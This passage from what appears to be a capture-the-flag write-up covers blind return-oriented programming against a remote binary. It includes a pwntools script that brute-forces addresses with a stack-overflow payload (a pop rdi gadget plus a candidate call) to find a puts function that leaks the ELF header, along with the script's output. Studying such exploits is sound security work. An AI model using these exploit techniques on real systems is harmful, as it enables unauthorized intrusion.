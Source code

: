 ## Finding PUTS
---
Since we now have controll over `RDI` we can use it set the first argument to any functions. So what I did is I set `RDI` to the `BINARY_BASE` and tried to call `puts` or `printf` whatever is present in the binary. Since I did'nt know the address of the `leak fucntion` I bruteforced it so that if the correct fucntion is called, it would print out the bytes `b'ELF'` in its output as its part of the header of the ELF file.


Here is the function that I used -

```py
def FindLeakFunc():
    funcs = []
    for i in range(BINARY_BASE, BINARY_BASE+0x4000):
        io = pwn.remote(HOST, PORT, level='critical')
        payload = b'A'*OFFSET
        payload += pwn.p64(BROP_GADGET + 9)  # pop rdi
        payload += pwn.p64(BINARY_BASE)
        payload += pwn.p64(i)
        io.send(payload)
        mssg = io.recv(0x1000, timeout=0.2)
        if b'ELF' in mssg:
            pwn.log.success("Found leak func at: " + hex(i))
            funcs.append(i)
        io.close()
    return funcs
```

This is the output I got -

```bash
[+] Found leak func at: 0x400550
[+] Found leak func at: 0x400555
[+] Found leak func at: 0x400557
[+] Found leak func at: 0x40055c
[+] Found leak func at: 0x40055e
[+] Found leak func at: 0x40055f
[+] Found leak func at: 0x400560
[+] Found leak func at: 0x400561
[+] Found leak func at: 0x40056b
[+] Found leak func at: 0x40057b
[+] Found leak func at: 0x40058b
[+] Found leak func at: 0x40059b
[+] Found leak func at: 0x4005ab
[+] Found leak func at: 0x4006fb
[+] Found leak func at: 0x400713
[+] Found leak func at: 0x40071f
[4195664, 4195669, 4195671, 4195676, 4195678, 4195679, 4195680, 4195681, 4195691, 4195707, 4195723, 4195739, 4195755, 4196091, 4196115, 4196127]
```

I chose a function from these later on that worked properly and added it to our global variables.
```py
CALL_PUTS = 0x400560
```
